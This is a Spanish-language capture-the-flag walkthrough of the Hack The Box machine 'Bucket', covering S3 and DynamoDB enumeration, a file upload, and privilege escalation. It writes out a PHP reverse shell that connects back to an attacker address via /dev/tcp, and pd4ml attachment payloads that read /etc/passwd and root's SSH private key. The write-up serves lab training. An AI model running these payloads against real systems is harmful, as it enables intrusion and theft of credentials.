


Primera maquina donde tocamos algo relacionado con AWS me emociona la verdad, aunque sea de manera local
# Preparaciones 

Agrega a tu **/etc/host**  :

```bash
 10.10.10.212 http://bucket.htb
```

# Reconocimiento 

Utilizaremos Nmap para hacer un escaneo de puertos y servicios que tiene la maquina expuestos 

Puertos abiertos:
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG PortsOpen 10.10.10.212
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.212 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```

Servicios corriendo:

```bash
nmap -sCV -p22,80 -oN PortsInfo 10.10.10.212

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Tenemos dos servicios Apache para una pagina web y ssh para conectarse al servidor 

## Visitando bucket.htb

Cuando entramos a la pagina web, nos daremos cuenta de que en su totalidad es estática, y la temática tiene que ver con la infraestructura de la nube a través de AWS 


Veremos el código de la web para saber si tenemos algunas rutas o dominios mas por conocer 

Para cargar las imágenes la web usa un api con un subdominio llamado **http://s3.bucket.htb/**


Esta dirección también debe de estar en tu **/etc/hosts**:

```bash 
 10.10.10.212 http://bucket.htb http://s3.bucket.htb/
```

Y como se comenta anterior mente la dirección es un api el cual nos responde con un JSON sobre el estado de esta misma:



No tenemos muchas rutas por aquí incluso haciendo Fuzzing no encontraremos cosas importantes, lo primero que sabemos es que usa Python para funcionar específicamente usando Hypercorn 

Usando curl checamos las cabeceras y encontraremos información extra para saber que esta funcionando por detrás:


Eureka tenemos información valiosa en el header de **access-control-expose-headers: x-amz-version-id** 

## ¿Qué es  x-amz-version-id?

Realizando la búsqueda correspondiente en Google para conocer el servicio que se emplea nos daremos cuenta que esta usando s3 de AWS que es un servicio de infraestructura en la  nube 


# Enumeración de S3 

Una vez ya conocemos el objetivo procedemos a realizar la enumeración de este mismo con el fin de encontrar los **buckets** que están por detrás

El término "QoS buckets" (cubetas de QoS o "token buckets") no se refiere directamente a un tipo específico de "bucket" (cubeta) en Amazon S3 como tal. En el contexto de AWS S3, los "buckets" son contenedores de almacenamiento de objetos.

Para enumerar necesitamos tener el cliente de AWS

```bash
 sudo apt install awscli 
``` 

y nos conectaremos de la siguiente forma 

```bash 
aws --endpoint-url=http://s3.bucket.htb:80 s3 ls
```

Pero tenemos un problema  las credenciales no esta configuradas 


Para solucionar esto podremos las credenciales por defecto

```bash 
aws configure
```


Volvemos a intentar otra ves para enumerar el servicio y esta vez obtendremos el bucket llamado adserver 

```bash 
aws --endpoint-url=http://s3.bucket.htb:80 s3 ls

2025-06-04 15:05:03 adserver <--Here
```

Bien ahora enumerar y explorar el contenido de este bucket

```bash 
aws --endpoint-url=http://s3.bucket.htb:80 s3 ls s3://adserver/
```

Mucha información no vemos :


Existe una forma para descarga los archivos que se encuentren dentro de esta carpeta, con el siguiente comando

 ```bash
  aws --endpoint-url=http://s3.bucket.htb:80 s3 sync s3://adserver .
``` 

Bingo si existen archivo que podemos descargar 


Y dentro de estos tampoco encontramos nada, que podemos hacer en este punto, dejar de intentar por que se puso difícil la situación , esperar por que ella responda, NO amigo mío jajaja tenemos que encontrar una solución, si nos quedamos quietos nada se moverá.

En los encabezados tenemos algo super interesante que nos ayudara en esta ocasión

```header
access-control-allow-methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
```

esto quiere decir que podemos subir archivos y descargarlos tenemos control completo en otras palabras. La pagina trabaja con Apache por ende PHP esta instalado, y si podemos subir archivos..... que te parece una reverse shell (Me imagine esa sonrisa tuya ahora) ves como si hay solución

El archivo .php es una reverse shell de toda la vida:

```PHP
<?php 
exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.X.X/443 0>&1 \"'); 
?>
```

Y procedemos a subirlo 

```bash 
aws --endpoint-url=http://s3.bucket.htb s3 cp Your_File.php s3://adserver/
```


Una vez este subido podemos verificarlo:


Ponte en escucha en el puerto que especificaste en tu archivo php

```bash
nc -lvnp 443
```

Ahora bien para que funcione la reverse shell debemos de entrar a la dirección de **http://bucket.htb/Your_file.php** 


Consejo: Si no funciona al entrar al link de tu archivo y solo te da un 404 , apaga y enciende la maquina y prueba otra vez 

Y así obtenemos la reverse shell:


Y le damos un tratamiento a la rever shell

```bash
script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

export TERM=xterm;

export SHELL=bash

stty rows 41 columns 192
```


# www-data -> roy

Bien una vez dentro del servido tenemos que encontrar la forma de elevar nuestros privilegios, revisando otros usuarios solamente tenemos dos, root y roy 


Dentro de la carpeta de roy encontraremos la carpeta del proyecto de la pagina web, en especifico encontraremos el servicio de AWS DynamoDB que es un gestor de Base de Datos NoSQL(clave valor), usando un endpoint por el puerto 4566 


Para poder la tablas que existen en este servicio de AWS DynamoDB tendremos que configurar primero a nustro usario www-data 

```bash
mkdir /tmp/name
export HOME=/tmp/name
```

Y después configuramos a nuestro usuario con sus credenciales 

```bash
aws configures
```


Una ves tengamos esto, procedemos a listar las tablas que encontramos dentro de AWS DynamoDB 

Para listar las tablas:
```bash
aws --endpoint-url=http://localhost:4566 dynamodb list-tables
```


Y para listar el contenido de users:

```bash
aws --endpoint-url=http://localhost:4566 dynamodb scan --table-name users
```


# roy -> root

Estas contraseñas tocar probar para saber si son las correctas para el usuario roy, y claramente una de ellas es la correcta 


Siendo el usuario roy podemos entrar a la carpeta de **/var/www/bucket-app** esta carpeta aloja una pagina web que esta en desarrollo


Si revisamos las configuraciones de Apache encontraremos que la pagina que esta en desarrollo solo es accesible de manera local por el puerto 8000


Para saber si si esta alojada en ese puerto, podemos usar curl para comprobar que la pagina se encuentra ahí 


Bien usaremos un ssh túnel para poder ver la pagina 

```bash
ssh 8000:127.0.0.1:8000 roy@10.10.10.212
```

Y desde nuestro navegador obtendremos entraremos al localhost:8000


Revisando el código fuente encontraremos ese gran mensaje del creador de la maquina:


En **/var/www/bucket-app** encontraremos el index.php que pertenece a esta pagina, tenemos un fragmento de código PHP que nos interesa

```PHP
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
	if($_POST["action"]==="get_alerts") {
		date_default_timezone_set('America/New_York');
		$client = new DynamoDbClient([
			'profile' => 'default',
			'region'  => 'us-east-1',
			'version' => 'latest',
			'endpoint' => 'http://localhost:4566'
		]);

		$iterator = $client->getIterator('Scan', array(
			'TableName' => 'alerts',
			'FilterExpression' => "title = :title",
			'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
		));

		foreach ($iterator as $item) {
			$name=rand(1,10000).'.html';
			file_put_contents('files/'.$name,$item["data"]);
		}
		passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
	}
}
else
{
?>
```


## Depuración de PHP


Como buenos hacker que somos, sabemos que depurar código es parte de nosotros, nosotros somos el compilador xd

Primero entendamos el flujo de trabajo de este script de php 

### 1- Recibe una petición POST
```PHP
if($_SERVER["REQUEST_METHOD"]==="POST") { 
	if($_POST["action"]==="get_alerts") {
``` 
### 2- Consulta una tabla de DynamoDB
```PHP
$client = new DynamoDbClient([
			'profile' => 'default',
			'region'  => 'us-east-1',
			'version' => 'latest',
			'endpoint' => 'http://localhost:4566'
		]);
```
### 3- Guarda los datos en archivos HTML
```PHP
foreach ($iterator as $item) {
			$name=rand(1,10000).'.html';
			file_put_contents('files/'.$name,$item["data"]);
		}
```
### 4- Convierte el HTML a PDF usando una herramienta Java
```PHP
passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
```

Este ultimo tiene un vulnerabilidad en la variable de `$name` no está validado antes de usarse en `passthru()` entonces podemos inyectar comandos o leer archivos 

Una vez entendemos esto, ¿Cómo lo explotamos esta vulnerabilidad? ¿Sera el usuario root quien este por detrás?

Estas dos preguntas la vamos a responder solamente actuando no quedándonos quietos sin hacer nada 

Primer paso es crear la tabla a la cual esta haciendo la consulta que se llama alerts, si recuerda solamente existe una y es la de user

```PHP
$iterator = $client->getIterator('Scan', array(
			'TableName' => 'alerts', <--here
			'FilterExpression' => "title = :title",
			'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
		));
```

Para crearla ocuparemos la siguiente sintaxis a través de aws client:

```bash
aws --endpoint-url=http://localhost:4566 dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
```

## Desglose del comando:

### 1. **Configuración de conexión:**
```bash
aws --endpoint-url=http://localhost:4566 dynamodb create-table
```

- `aws` - CLI de Amazon Web Services
- `--endpoint-url=http://localhost:4566` - Conecta a LocalStack local (no a AWS real)
- `dynamodb create-table` - Comando para crear tabla en DynamoDB

### 2. **Nombre de la tabla:**
```bash
--table-name alerts
```

La tabla se llamará `alerts`
### 3. **Definición de atributos:**
```bash
--attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S
```
- `title` - Tipo String (S)
- `data` - Tipo String (S)

**Tipos disponibles:**

- `S` = String
- `N` = Number
- `B` = Binary

### 4. **Esquema de claves:**
```bash
--key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE
```

- `title` = **Partition Key (HASH)** - Clave principal para distribución
- `data` = **Sort Key (RANGE)** - Clave de ordenamiento

### 5. **Capacidad de rendimiento:**
```bash
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
```

- `ReadCapacityUnits=5` - 5 lecturas por segundo
- `WriteCapacityUnits=5` - 5 escrituras por segundo


## Explotando la vulnerabilidad 


### Crea la tabla
Recuerda primero configura al usuario de roy como lo hicimos con www-data 


Una vez creada verificaremos las tablas existentes y veremos que la tabla de alerts(la nuestra) ya se ha creado


### Ingresamos los datos 

```bash
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><h1>pwned</h1></html>"}}'
```

### Enviamos una petición para que lo convierta en PDF

```bash
curl http://localhost:8000/index.php -d 'action=get_alerts'
```

y el la ubicación de **/var/www/bucket-app/file** se crearan dos nuevos documentos 



Los cuales podremos visualizar desde el navegador 


Una vez ya sabemos como funciona, toca realizar la explotación de este mismo, el cual es leer archivos de la maquina 

carga util:
```bash 
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='\''file:///etc/passwd'\'' description='\''test'\'' icon='\''Paperclip'\''/></html>"}}'
```

Después mandamos por ***curl*** la petición 

Y en la carpeta de file obtenemos el nombre de los archivos que se generaron, el que nos interesa es el PDF

```shell
roy@bucket:/var/www/bucket-app$ ls files/
3705.html  result.pdf <--here
```

y este creara un clip que al darle doble clic nos descarga un documento donde si todo salió bien podemos ver el **/etc/passwd**


Y haciendo el mismo procedimiento podemos apuntar a archivos de la maquina, y si ¿apuntamos a un archivo de root para saber si es este el que esta ejecutando el servicio?

```bash
aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src='\''file:///root/.ssh/id_rsa'\'' description='\''test'\'' icon='\''Paperclip'\''/></html>"}}'
```

Bingo!!!!!!!


Ya solo conéctate por ssh con la clave privada de root y listo:


Tenemos una maquina muy buena para aprender sobre la infraestructura en la nube aun que sea de manera local 

#LFI #AWS #Linux #DynamonDB


